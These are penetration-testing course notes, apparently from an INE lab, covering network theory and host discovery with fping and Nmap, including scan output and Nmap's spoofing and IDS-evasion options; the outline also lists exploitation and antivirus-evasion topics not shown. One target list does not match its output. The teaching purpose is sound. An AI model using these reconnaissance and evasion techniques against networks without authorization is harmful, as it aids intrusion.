

# Network Penetration Testing

## Course Introduction

### Course Topic Overview

- Host Discovery and Port Scanning
	- Host Discovery (with FPing/Nmap)
	- Port Scanning (with Nmap)
	- Service Version and OS Detection (with Nmap)
	- Nmap Scripting Engine (NSE)
	- Firewall Detection and IDS Evasion (with Nmap)
	- Optimizing Nmap Scans: Scan Timing and Performance
	- Nmap Output Formats
- Windows and Linux Enumeration
	- Windows Enumeration: SMB and NetBIOS Enumeration (with Nmap, smbclient)
	- Windows Enumeration: SNMP Enumeration (with Nmap, snmpwalk)
	- Linux Service Enumeration (with Nmap, SMTP-user-enum, smbmap, rpcclient, Metasploit, finger-user-enum)
- Windows Exploitation
	- Windows Exploitation: DNS and SMB Relay Attack (with dnsspoof, arpspoof, Metasploit)
	- Windows Exploitation: MSSQL DB User Impersonation to RCE (with Nmap, impacket-mssqlclient)
- Linux Exploitation
	- Linux Black-Box Penetration Test (with Nmap, Metasploit)
- Windows Post-Exploitation
	- Windows Post-Exploitation: Dumping and Cracking NTLM Hashes (with Nmap, Metasploit, JohntheRipper/Hashcat)
	- Windows Black-Box Penetration Test (with Nmap, Metasploit, proxychains, xfreerdp)
- MITM and Network-Based Attacks
- Antivirus Evasion (with UPX and Veil-Framework)

### Prerequisites

- Basic Understanding of Computer Networking
	- Knowledge of IP addresses, subnetting, routing, and network devices (switches, routers, firewalls).
	- Familiarity with common network protocols (TCP, UDP, HTTP, DNS, etc.).

- Fundamentals of Operating Systems
	- Basic knowledge of Windows and Linux operating systems, including their command-line interfaces.
	- Understanding of system processes, file systems, and user permissions.

- Experience with Exploitation and Post-Exploitation
	- Knowledge and experience in exploitation and post-exploitation on Windows and Linux.
	- Ability to target OS specific ports, protocols and services (SMB, RDP, WinRM etc).
	- Ability to identify and exploit vulnerabilities/misconfigurations in Windows and Linux systems.

- Experience with Penetration Testing Tools
	- Some experience using common penetration testing tools (e.g., Metasploit, Nmap, Wireshark).
	- Knowledge and understanding of penetration testing methodologies.

### Learning Objectives

1. Host Discovery and Port Scanning
	- Demonstrate competency in identifying hosts on a target network through various host discovery techniques applicable to both Windows and Linux.
	- Utilize network mapping and port scanning tools to identify open ports on target systems and the services running on the open ports.

2. Service Enumeration
	- Demonstrate competency in enumerating important information from services running on both Windows and Linux systems.
	- Leverage enumeration tools and techniques like Nmap Scripts and other protocol specific tools to enumerate information from specific network protocols (SMB, NetBIOS, SMTP, FTP etc).

3. MITM and Network-Based Attacks
	- Demonstrate competency in performing ARP Spoofing and DNS Spoofing attacks.
	- Demonstrate competency in performing ARP Poisoning and NBT-NS Poisoning attacks.
	- Leverage tools like arpspoof, dnsspoof and Responder to facilitate MITM Attacks.

4. Exploitation and Exploitation
	- Demonstrate competency in exploiting Windows and Linux specific protocols and services for initial access.
	- Demonstrate competency in performing advanced network-based Windows exploitation techniques like SMB Relaying.
	- Demonstrate competency in performing post-exploitation activities on Windows and Linux systems.

---
---

## Host Discovery and Port Scanning

### Active Information Gathering - Theory


Active information gathering, in the context of penetration testing, refers to the phase of the assessment where the tester actively interacts with the target system or network to collect data and identify potential vulnerabilities.

This phase involves techniques that go beyond passive reconnaissance (where information is gathered without directly interacting with the target) and may include activities such as scanning, probing, and direct interaction with network services.


### Networking Fundamentals - Theory

#### Network Protocols

In computer networks, hosts communicate with each other through the use of network protocols.
Network protocols ensure that different computer systems, using different hardware and software can communicate with each other.
There are a large number of network protocols used by different services for different objectives/functionality.
Communication between different hosts via protocols is transferred/facilitated through the use of packets.

#### Packets

The primary goal of networking is the exchange information between networked computers; this information is transferred by packets.
Packets are nothing but streams of bits running as electric signals on physical media used for data transmission (Ethernet, Wi-Fi, etc.).
These electrical signals are then interpreted as bits (zeros and ones) that make up the information.

Every packet in every protocol has the following structure.


- The **header** has a protocol-specific structure: this ensures that the receiving host can correctly interpret the payload and handle the overall communication.
- The **payload** is the actual information being sent . It could be something like part of an email message or the content of a file during a download.

#### The OSI Model

The **OSI (Open Systems Interconnection) model** is a conceptual framework that standardizes the functions of a telecommunication or computing system into **seven abstraction layers**.
It was developed by the International Organization for Standardization (ISO) to facilitate communication between different systems and devices, ensuring interoperability and understanding across a wide range of networking technologies.
The OSI model is divided into seven layers, each representing a specific functionality in the process of network communication.

| #  | OSI LAYER          | FUNCTION                                                                                                                                                       | EXAMPLES                     |
|----|--------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------|------------------------------|
| 7  | APPLICATION LAYER   | Provides network services directly to end-users or applications.                                                                                                | HTTP, FTP, IRC, SSH, DNS      |
| 6  | PRESENTATION LAYER  | Translates data between the application layer and lower layers. Responsible for data format translation, encryption, and compression to ensure that data is presented in a readable format. | SSL/TLS, JPEG, GIF, SSH, IMAP |
| 5  | SESSION LAYER       | Manages sessions or connections between applications. Handles synchronization, dialog control, and token management. (Interhost communication)                   | APIs, NetBIOS, RPC            |
| 4  | TRANSPORT LAYER     | Ensures end-to-end communication and provides flow control.                                                                                                    | TCP, UDP                      |
| 3  | NETWORK LAYER       | Responsible for logical addressing and routing. (Logical Addressing)                                                                                           | IP, ICMP, IPSec               |
| 2  | DATA LINK LAYER     | Manages access to the physical medium and provides error detection. Responsible for framing, addressing, and error checking of data frames. (Physical addressing) | Ethernet, PPP, Switches etc   |
| 1  | PHYSICAL LAYER      | Deals with the physical connection between devices.                                                                                                            | USB, Ethernet Cables, Coax, Fiber, Hubs etc |

The OSI model serves as a guideline for developing and understanding network protocols and communication processes.
While it is a conceptual model, it helps in organizing the complex task of network communication into manageable and structured layers.
**Note**: The OSI model is not a strict blueprint for every networking system but rather a reference model that aids in understanding and designing network architectures.

### Network Mapping - Theory

After collecting information about a target organization during the passive information gathering stage, a penetration tester typically moves on to active information gathering phase which involves discovering hosts on a network, performing port scanning and enumeration.

As you know, every host connected to the Internet or a private network must have a unique IP address that uniquely identifies it on said network.

How can a penetration tester determine what hosts, within an in-scope network are online? what ports are open on the active hosts? and what operating systems are running on the active hosts?
Answer: Network Mapping.

Network mapping in the context of penetration testing (pentesting) refers to the process of discovering and identifying devices, hosts, and network infrastructure elements within a target network.

Pentesters use network mapping as a crucial initial step to gather information about the network's layout, understand its architecture, and identify potential entry points for further exploitation.

**Example - Why Map a Network?**

A company asks for you/your company to perform a penetration test, and the following address block is considered in scope: 200.200.0.0/16.

A sixteen-bit long netmask means the network could contain up to 2^(16) (65536) hosts with IP addresses in the 200.200.0.0 - 200.200.255.255 range.

The first job for the penetration tester will involve determining which of the 65536 IP addresses are assigned to a host, and which of those hosts are online/active.

We need a way to map out an unknown network into something more useful, In this example, the pentester is connecting to a remote network via the internet.


In this example, we do not know anything about the target network, the objective of network mapping is to develop a picture of the network architecture and the systems that make up the network as a whole.

Network mapping allows us to get a better understanding of what we are dealing with in terms of how many systems exist within their network and their potential functional role.

Identify network IP mask and discover active hosts on network and their corresponding IP addresses.

#### Network Mapping Objectives

- **Discovery of Live Hosts:** Identifying active devices and hosts on the network. This involves determining which IP addresses are currently in use.
- **Identification of Open Ports and Services:** Determining which ports are open on the discovered hosts and identifying the services running on those ports. This information helps pentesters understand the attack surface and potential vulnerabilities.
- **Network Topology Mapping:** Creating a map or diagram of the network topology, including routers, switches, firewalls, and other network infrastructure elements. Understanding the layout of the network assists in planning further penetration testing activities.
- **Operating System Fingerprinting:** Determining the operating systems running on discovered hosts. Knowing the operating system helps pentesters tailor their attack strategies to target vulnerabilities specific to that OS.
- **Service Version Detection:** Identifying specific versions of services running on open ports. This information is crucial for pinpointing vulnerabilities associated with particular service versions.
- **Identifying Filtering and Security Measures:** Discovering firewalls, intrusion prevention systems, and other security measures in place. This helps pentesters understand the network's defenses and plan their approach accordingly.

#### Nmap (Network Mapper)

Nmap, or Network Mapper, is an open-source network scanning tool used for discovering hosts and services on a computer network, finding open ports, and identifying potential vulnerabilities.

It is a powerful and versatile tool that has become a standard in the toolkit of security professionals, network administrators, and penetration testers.

Nmap offers a range of features and functionalities that make it a valuable tool in various network security contexts:

#### Nmap Functionality

- **Host Discovery:** Nmap can identify live hosts on a network using techniques such as ICMP echo requests, ARP requests, or TCP/UDP probes.
- **Port Scanning:** It can perform various types of port scans to discover open ports on target hosts.
- **Service Version Detection:** Nmap can determine the versions of services running on open ports. This information helps in understanding the software stack and potential vulnerabilities associated with specific versions.
- **Operating System Fingerprinting:** Nmap can attempt to identify the operating systems of target hosts based on characteristics observed during the scanning process.

### Host Discovery Techniques - Theory

In penetration testing, host discovery is a crucial phase to identify live hosts on a network before further exploration and vulnerability assessment.

Various techniques can be employed for host discovery, and the choice of technique depends on factors such as network characteristics, stealth requirements, and the goals of the penetration test.

**Host Discovery Techniques**

- **Ping Sweeps (ICMP Echo Requests):** Sending ICMP Echo Requests (ping) to a range of IP addresses to identify live hosts. This is a quick and commonly used method.
- **ARP Scanning:** Using Address Resolution Protocol (ARP) requests to identify hosts on a local network. ARP scanning is effective in discovering hosts within the same broadcast domain.
- **TCP SYN Ping (Half-Open Scan):** Sending TCP SYN packets to a specific port (often port 80) to check if a host is alive. If the host is alive, it responds with a TCP SYN-ACK. This technique is stealthier than ICMP ping.
- **UDP Ping:** Sending UDP packets to a specific port to check if a host is alive. This can be effective for hosts that do not respond to ICMP or TCP probes.
- **TCP ACK Ping:** Sending TCP ACK packets to a specific port to check if a host is alive. This technique expects no response, but if a TCP RST (reset) is received, it indicates that the host is alive.
- **SYN-ACK Ping (Sends SYN-ACK packets):** Sending TCP SYN-ACK packets to a specific port to check if a host is alive. If a TCP RST is received, it indicates that the host is alive.

The choice of the "best" host discovery technique in penetration testing depends on various factors, and there isn't a one-size-fits-all answer.

The effectiveness of a host discovery technique can be influenced by the specific characteristics of the target network, the security controls in place, and the goals of the penetration test.

Here are a few considerations:

- **ICMP Ping:**
	- **Pros:** ICMP ping is a widely supported and quick method for identifying live hosts.
	- **Cons:** Some hosts or firewalls may be configured to block ICMP traffic, limiting its effectiveness. ICMP ping can also be easily detected.
- **TCP SYN Ping:**
	- **Pros:** TCP SYN ping is stealthier than ICMP and may bypass firewalls that allow outbound connections.
	- **Cons:** Some hosts may not respond to TCP SYN requests, and the results can be affected by firewalls and security devices.

### Ping Sweeps - Theory

A ping sweep is a network scanning technique used to discover live hosts (computers, servers, or other devices) within a specific IP address range on a network.

The basic idea is to send a series of ICMP Echo Request (ping) messages to a range of IP addresses and observe the responses to determine which addresses are active or reachable.

You probably already know the ping command; it is a utility designed to check if a host is alive/reachable.
The ping command is available on every major operating system and can be invoked in the command line/terminal as follows:

`ping www.site.test`:
```
Pinging www.site.test [12.34.56.78] with 32 bytes of data:
Reply from 12.34.56.78: bytes=32 time=57ms TTL=127
Reply from 12.34.56.78: bytes=32 time=43ms TTL=127
Reply from 12.34.56.78: bytes=32 time=44ms TTL=127
```

Ping sweeps work by sending one or more specially crafted ICMP packets (Type 8 - echo request) to a host. If the destination host replies with an ICMP echo reply (Type 0) packet, then the host is alive/online.
In the context of ICMP (Internet Control Message Protocol), the ICMP Echo Request and Echo Reply messages are used for the purpose of ping.
These messages have specific ICMP type and code values associated with them:
- **ICMP Echo Request:**
    - Type: 8
    - Code: 0
- **ICMP Echo Reply:**
	- Type: 0
	- Code: 0

The "Type" field in the ICMP header indicates the purpose or function of the ICMP message, and the "Code" field provides additional information or context related to the message type.
In the case of ICMP Echo Request and Echo Reply, the Type value 8 represents Echo Request, and the Type value 0 represents Echo Reply.
So, when a device sends an ICMP Echo Request, it creates an ICMP packet with Type 8, Code 0.
When the destination device receives the Echo Request and responds with an Echo Reply, it creates an ICMP packet with Type 0, Code 0.

When the host is offline or not reachable, the ICMP Echo Request message sent by the ping utility will not receive a corresponding ICMP Echo Reply.

The absence of a response doesn't necessarily mean that the host is permanently offline; it could be due to various reasons, such as network congestion, temporary unavailability, or firewall settings that block ICMP traffic.

The ping utility provides a quick and simple way to check the reachability of a host, but it's important to interpret the results in the context of the network conditions and host configuration.

### Host Discovery (with FPing) - Lab

_Check the network interfaces and their configurations to understand the IP addresses and network ranges available on the system._

`ifconfig`:
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.0.3  netmask 255.255.0.0  broadcast 10.1.255.255
        ether 02:42:0a:01:00:03  txqueuelen 0  (Ethernet)
        RX packets 704  bytes 81792 (79.8 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 592  bytes 2093312 (1.9 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.100.17.2  netmask 255.255.255.0  broadcast 192.100.17.255 ←
        ether 02:42:c0:64:11:02  txqueuelen 0  (Ethernet)
        RX packets 16  bytes 1376 (1.3 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1642  bytes 2704453 (2.5 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1642  bytes 2704453 (2.5 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

**Explanation:** The `ifconfig` command reveals the active network interfaces on the system, including `eth0`, `eth1`, and `lo`.

_Discover the options available with the `fping` tool to determine the best method for network host discovery._

`fping --help`:
```
Usage: fping [options] [targets...]

Probing options:
   -4, --ipv4         only ping IPv4 addresses
   -6, --ipv6         only ping IPv6 addresses
   -b, --size=BYTES   amount of ping data to send, in bytes (default: 56)
   -B, --backoff=N    set exponential backoff factor to N (default: 1.5)
   -c, --count=N      count mode: send N pings to each target
   -f, --file=FILE    read list of targets from a file ( - means stdin) ←
   -g, --generate     generate target list (only if no -f specified) ←
                      (give start and end IP in the target list, or a CIDR address)
                      (ex. fping -g 192.168.1.0 192.168.1.255 or fping -g 192.168.1.0/24)
   -H, --ttl=N        set the IP TTL value (Time To Live hops)
   -I, --iface=IFACE  bind to a particular interface
   -l, --loop         loop mode: send pings forever
   -m, --all          use all IPs of provided hostnames (e.g. IPv4 and IPv6), use with -A
   -M, --dontfrag     set the Don't Fragment flag
   -O, --tos=N        set the type of service (tos) flag on the ICMP packets
   -p, --period=MSEC  interval between ping packets to one target (in ms)
                      (in loop and count modes, default: 1000 ms)
   -r, --retry=N      number of retries (default: 3)
   -R, --random       random packet data (to foil link data compression)
   -S, --src=IP       set source address ←
   -t, --timeout=MSEC individual target initial timeout (default: 500 ms,
                      except with -l/-c/-C, where it's the -p period up to 2000 ms)

Output options:
   -a, --alive        show targets that are alive ←
   -A, --addr         show targets by address
   -C, --vcount=N     same as -c, report results in verbose format
   -d, --rdns         show targets by name (force reverse-DNS lookup)
   -D, --timestamp    print timestamp before each output line
   -e, --elapsed      show elapsed time on return packets
   -i, --interval=MSEC  interval between sending ping packets (default: 10 ms)
   -n, --name         show targets by name (reverse-DNS lookup for target IPs)
   -N, --netdata      output compatible for netdata (-l -Q are required)
   -o, --outage       show the accumulated outage time (lost packets * packet interval)
   -q, --quiet        quiet (don't show per-target/per-ping results)
   -Q, --squiet=SECS  same as -q, but add interval summary every SECS seconds
   -s, --stats        print final stats
   -u, --unreach      show targets that are unreachable
   -v, --version      show version
   -x, --reachable=N  shows if >=N hosts are reachable or not
```

**Explanation:** The `fping --help` command displays all the available options for using the `fping` tool. The `-g` option is noteworthy because it allows generating a list of IP addresses to ping within a specific range or CIDR. The `-a` option is also critical because it shows only the IP addresses that are alive (i.e., respond to the ping).

_Use `fping` with the `-a` and `-g` options to scan the `192.100.17.0/24` subnet and identify active hosts._

`fping -a -g 192.100.17.0/24 2> /dev/null`:
```
192.100.17.1
192.100.17.2
192.100.17.3 ←
```

**Explanation:** The command `fping -a -g 192.100.17.0/24` scans the entire `192.100.17.0/24` subnet for active hosts, listing only those that respond to the ping (`-a`). Redirecting `stderr` to `/dev/null` (`2> /dev/null`) suppresses error messages, showing only the responsive IP addresses: `192.100.17.1`, `192.100.17.2`, and `192.100.17.3`. These are the hosts currently active and reachable within this network range.

### Host Discovery (with Nmap) - Lab

_Check the available options in Nmap by displaying the help page._

`nmap --help`:
```
Nmap 7.94SVN ( https://nmap.org )
Usage: nmap [Scan Type(s)] [Options] {target specification}
TARGET SPECIFICATION:
  Can pass hostnames, IP addresses, networks, etc.
  Ex: scanme.nmap.org, microsoft.com/24, 192.168.0.1; 10.0.0-255.1-254
  -iL <inputfilename>: Input from list of hosts/networks ←
  -iR <num hosts>: Choose random targets
  --exclude <host1[,host2][,host3],...>: Exclude hosts/networks
  --excludefile <exclude_file>: Exclude list from file
HOST DISCOVERY:
  -sL: List Scan - simply list targets to scan
  -sn: Ping Scan - disable port scan ←
  -Pn: Treat all hosts as online -- skip host discovery ←
  -PS/PA/PU/PY[portlist]: TCP SYN/ACK, UDP or SCTP discovery to given ports ←
  -PE/PP/PM: ICMP echo, timestamp, and netmask request discovery probes ←
  -PO[protocol list]: IP Protocol Ping
  -n/-R: Never do DNS resolution/Always resolve [default: sometimes] ←
  --dns-servers <serv1[,serv2],...>: Specify custom DNS servers
  --system-dns: Use OS's DNS resolver
  --traceroute: Trace hop path to each host
SCAN TECHNIQUES:
  -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans ←
  -sU: UDP Scan ←
  -sN/sF/sX: TCP Null, FIN, and Xmas scans
  --scanflags <flags>: Customize TCP scan flags
  -sI <zombie host[:probeport]>: Idle scan
  -sY/sZ: SCTP INIT/COOKIE-ECHO scans
  -sO: IP protocol scan
  -b <FTP relay host>: FTP bounce scan
PORT SPECIFICATION AND SCAN ORDER:
  -p <port ranges>: Only scan specified ports ←
    Ex: -p22; -p1-65535; -p U:53,111,137,T:21-25,80,139,8080,S:9
  --exclude-ports <port ranges>: Exclude the specified ports from scanning
  -F: Fast mode - Scan fewer ports than the default scan ←
  -r: Scan ports sequentially - don't randomize
  --top-ports <number>: Scan <number> most common ports
  --port-ratio <ratio>: Scan ports more common than <ratio>
SERVICE/VERSION DETECTION:
  -sV: Probe open ports to determine service/version info
  --version-intensity <level>: Set from 0 (light) to 9 (try all probes)
  --version-light: Limit to most likely probes (intensity 2)
  --version-all: Try every single probe (intensity 9)
  --version-trace: Show detailed version scan activity (for debugging)
SCRIPT SCAN:
  -sC: equivalent to --script=default
  --script=<Lua scripts>: <Lua scripts> is a comma separated list of
           directories, script-files or script-categories
  --script-args=<n1=v1,[n2=v2,...]>: provide arguments to scripts
  --script-args-file=filename: provide NSE script args in a file
  --script-trace: Show all data sent and received
  --script-updatedb: Update the script database.
  --script-help=<Lua scripts>: Show help about scripts.
           <Lua scripts> is a comma-separated list of script-files or
           script-categories.
OS DETECTION:
  -O: Enable OS detection
  --osscan-limit: Limit OS detection to promising targets
  --osscan-guess: Guess OS more aggressively
TIMING AND PERFORMANCE:
  Options which take <time> are in seconds, or append 'ms' (milliseconds),
  's' (seconds), 'm' (minutes), or 'h' (hours) to the value (e.g. 30m).
  -T<0-5>: Set timing template (higher is faster) ←
  --min-hostgroup/max-hostgroup <size>: Parallel host scan group sizes
  --min-parallelism/max-parallelism <numprobes>: Probe parallelization
  --min-rtt-timeout/max-rtt-timeout/initial-rtt-timeout <time>: Specifies
      probe round trip time.
  --max-retries <tries>: Caps number of port scan probe retransmissions.
  --host-timeout <time>: Give up on target after this long
  --scan-delay/--max-scan-delay <time>: Adjust delay between probes
  --min-rate <number>: Send packets no slower than <number> per second
  --max-rate <number>: Send packets no faster than <number> per second
FIREWALL/IDS EVASION AND SPOOFING:
  -f; --mtu <val>: fragment packets (optionally w/given MTU)
  -D <decoy1,decoy2[,ME],...>: Cloak a scan with decoys
  -S <IP_Address>: Spoof source address
  -e <iface>: Use specified interface
  -g/--source-port <portnum>: Use given port number
  --proxies <url1,[url2],...>: Relay connections through HTTP/SOCKS4 proxies
  --data <hex string>: Append a custom payload to sent packets
  --data-string <string>: Append a custom ASCII string to sent packets
  --data-length <num>: Append random data to sent packets
  --ip-options <options>: Send packets with specified ip options
  --ttl <val>: Set IP time-to-live field
  --spoof-mac <mac address/prefix/vendor name>: Spoof your MAC address
  --badsum: Send packets with a bogus TCP/UDP/SCTP checksum
OUTPUT:
  -oN/-oX/-oS/-oG <file>: Output scan in normal, XML, s|<rIpt kIddi3,
     and Grepable format, respectively, to the given filename.
  -oA <basename>: Output in the three major formats at once
  -v: Increase verbosity level (use -vv or more for greater effect)
  -d: Increase debugging level (use -dd or more for greater effect)
  --reason: Display the reason a port is in a particular state
  --open: Only show open (or possibly open) ports
  --packet-trace: Show all packets sent and received
  --iflist: Print host interfaces and routes (for debugging)
  --append-output: Append to rather than clobber specified output files
  --resume <filename>: Resume an aborted scan
  --noninteractive: Disable runtime interactions via keyboard
  --stylesheet <path/URL>: XSL stylesheet to transform XML output to HTML
  --webxml: Reference stylesheet from Nmap.Org for more portable XML
  --no-stylesheet: Prevent associating of XSL stylesheet w/XML output
MISC:
  -6: Enable IPv6 scanning
  -A: Enable OS detection, version detection, script scanning, and traceroute
  --datadir <dirname>: Specify custom Nmap data file location
  --send-eth/--send-ip: Send using raw ethernet frames or IP packets
  --privileged: Assume that the user is fully privileged
  --unprivileged: Assume the user lacks raw socket privileges
  -V: Print version number
  -h: Print this help summary page.
EXAMPLES:
  nmap -v -A scanme.nmap.org
  nmap -v -sn 192.168.0.0/16 10.0.0.0/8
  nmap -v -iR 10000 -Pn -p 80
SEE THE MAN PAGE (https://nmap.org/book/man.html) FOR MORE OPTIONS AND EXAMPLES
```

_Consult the Nmap manual to get a detailed explanation of the `-sn` command._

`man nmap` > `/-sn` > `<ENTER>` > `<N>` ("next"):
```
-sn (No port scan)
           This option tells Nmap not to do a port scan after host discovery, and only print out the available hosts that responded to the host discovery probes. ←
This is often known as a “ping scan”, but you can also request that traceroute and NSE host scripts be run. This is by default one step more intrusive than the list scan, and can often be used for the same purposes. It allows light reconnaissance of a target network without attracting much attention. Knowing how many hosts are up is more valuable to attackers than the list provided by list scan of every single IP and host name.

           Systems administrators often find this option valuable as well. It can easily be used to count available machines on a network or monitor server availability. This is often called a ping sweep, and is more reliable than pinging the broadcast address because many hosts do not reply to broadcast queries.

           The default host discovery done with -sn consists of an ICMP echo request, TCP SYN to port 443, TCP ACK to port 80, and an ICMP timestamp request by default. ←
When executed by an unprivileged user, only SYN packets are sent (using a connect call) to ports 80 and 443 on the target. When a privileged user tries to scan targets on a local ethernet network, ARP requests are used unless --send-ip was specified. The -sn option can be combined with any of the discovery probe types (the -P* options) for greater flexibility.
           If any of those probe type and port number options are used, the default probes are overridden. When strict firewalls are in place between the source host running Nmap and the target network, using those advanced techniques is recommended. Otherwise hosts could be missed when the firewall drops probes or their responses.

           In previous releases of Nmap, -sn was known as -sP.
```

_Check the network interfaces to understand the current IP configuration._

`ifconfig`:
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.0.3  netmask 255.255.0.0  broadcast 10.1.255.255
        ether 02:42:0a:01:00:03  txqueuelen 0  (Ethernet)
        RX packets 46917  bytes 3483428 (3.3 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 42524  bytes 11145552 (10.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.100.17.2  netmask 255.255.255.0  broadcast 192.100.17.255 ←
        ether 02:42:c0:64:11:02  txqueuelen 0  (Ethernet)
        RX packets 27  bytes 2090 (2.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 609  bytes 25690 (25.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 82330  bytes 30495344 (29.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 82330  bytes 30495344 (29.0 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

_Perform a ping scan over the 192.100.17.0/24 network to discover live hosts._

`nmap -sn 192.100.17.0/24`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-27 15:06 IST
Nmap scan report for 192.100.17.1
Host is up (0.000031s latency).
MAC Address: 02:42:B8:10:33:67 (Unknown)
Nmap scan report for demo.ine.local (192.100.17.3) ←
Host is up (0.000018s latency). ←
MAC Address: 02:42:C0:64:11:03 (Unknown)
Nmap scan report for INE (192.100.17.2)
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 1.97 seconds
```

_Perform a targeted ping scan on the host with IP 192.100.17.3._

`nmap -sn 192.100.17.3`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-27 15:16 IST
Nmap scan report for demo.ine.local (192.100.17.3) ←
Host is up (0.000029s latency).
MAC Address: 02:42:C0:64:11:03 (Unknown)
Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
```

_Capture the network traffic on the interface `eth1` using Wireshark to analyze the ARP requests._

`sudo wireshark -i eth1`:

| No. | Time        | Source             | Destination        | Protocol | Length | Info                                                |
|-----|-------------|--------------------|--------------------|----------|--------|-----------------------------------------------------|
| 1   | 0.000000000 | 02:42:c0:64:11:02  | Broadcast          | ARP      | 42     | Who has 192.100.17.3? Tell 192.100.17.2 ←             |
| 2   | 0.000024531 | 02:42:c0:64:11:03  | 02:42:c0:64:11:02  | ARP      | 42     | 192.100.17.3 is at 02:42:c0:64:11:03                |

_Perform a ping scan with `--send-ip` to force the use of IP packets instead of ARP requests._

`nmap -sn 192.100.17.3 --send-ip`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-27 15:16 IST
Nmap scan report for demo.ine.local (192.100.17.3) ←
Host is up (0.000065s latency).
MAC Address: 02:42:C0:64:11:03 (Unknown)
Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
```

_Capture the network traffic again on `eth1` with Wireshark to observe the ICMP packets._

`sudo wireshark -i eth1`:

| No. | Time          | Source          | Destination     | Protocol | Length | Info                                                                |
|-----|---------------|-----------------|-----------------|----------|--------|---------------------------------------------------------------------|
| 1   | 0.000000000   | 192.100.17.2    | 192.100.17.3    | ICMP     | 42     | Echo (ping) request     id=0xf9d5, seq=0/0, ttl=53 (reply in 2) ←    |
| 2   | 0.000044961   | 192.100.17.3    | 192.100.17.2    | ICMP     | 42     | Echo (ping) reply       id=0xf9d5, seq=0/0, ttl=64 (request in 1)   |
| 3   | 0.000059201   | 192.100.17.2    | 192.100.17.3    | TCP      | 58     | 44808 → 443 [SYN] Seq=0 Win=1024 Len=0 MSS=1460 ←                    |
| 4   | 0.000082081   | 192.100.17.3    | 192.100.17.2    | TCP      | 54     | 443 → 44808 [RST, ACK] Seq=1 Ack=1 Win=0 Len=0                      |
| 5   | 0.000092582   | 192.100.17.2    | 192.100.17.3    | TCP      | 54     | 44808 → 80 [ACK] Seq=1 Ack=1 Win=1024 Len=0 ←                        |
| 6   | 0.000110262   | 192.100.17.3    | 192.100.17.2    | TCP      | 54     | 80 → 44808 [RST] Seq=1 Win=0 Len=0                                  |
| 7   | 0.000119672   | 192.100.17.2    | 192.100.17.3    | ICMP     | 54     | Timestamp request        id=0xe664, seq=0/0, ttl=40                 |
| 8   | 0.000135833   | 192.100.17.3    | 192.100.17.2    | ICMP     | 54     | Timestamp reply          id=0xe664, seq=0/0, ttl=64                 |
| 9   | 5.356643427   | 02:42:c0:64:11:03| 02:42:c0:64:11:02| ARP      | 42     | Who has 192.100.17.2? Tell 192.100.17.3 ←                             |
| 10  | 5.356682948   | 02:42:c0:64:11:03| 02:42:c0:64:11:02| ARP      | 42     | 192.100.17.3 is at 02:42:c0:64:11:03                                |

_Create a file called `targets.txt` to specify multiple targets for the scan._

`vim targets.txt`:
```
192.100.17.1
192.100.17.75
192.100.25.1-220
```

_Use the `-iL` option to read the targets from the file and perform a ping scan on them._

`nmap -sn -iL ./targets.txt`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-27 15:28 IST
setup_target: failed to determine route to 192.100.20.1
setup_target: failed to determine route to 192.100.20.2
setup_target: failed to determine route to 192.100.20.3

[...]

setup_target: failed to determine route to 192.100.20.218
setup_target: failed to determine route to 192.100.20.219
setup_target: failed to determine route to 192.100.20.220
Nmap scan report for 192.100.17.1
Host is up (0.000010s latency).
MAC Address: 02:42:B8:10:33:67 (Unknown)
Nmap done: 2 IP addresses (1 host up) scanned in 1.26 seconds
```

_Attempt a simple ping scan on an IP address to check if the host is up._

`nmap -sn 10.4.25.22`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 15:07 IST

